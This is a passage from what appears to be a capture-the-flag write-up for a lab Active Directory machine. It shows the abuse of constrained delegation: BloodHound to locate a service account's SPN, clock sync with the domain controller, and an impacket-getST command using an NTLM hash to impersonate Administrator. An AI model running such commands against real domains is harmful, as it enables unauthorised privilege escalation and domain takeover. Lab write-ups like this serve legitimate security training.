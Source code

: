 I tried to crack the hash but that failed, so since this is a service account we can create a silver ticket
since this user has `AllowedToDelegate` on the DC:
!["AllowedToDelegate"](./imgs/assets-intelligence/AllowedToDelegate.png)

To get the SPN we can access Node properties of svc_int user in Bloodhound

Before we carry out the exploit we should sync our time with the DC:
```bash
$ sudo rdate -n <ip of DC>
```

```bash
impacket-getST -spn www/dc.intelligence.htb -dc-ip 10.129.156.112 -impersonate Administrator intelligence.htb/svc_int -hashes :fb49fcd5ffc6fefa70503e08c9cd8261
```
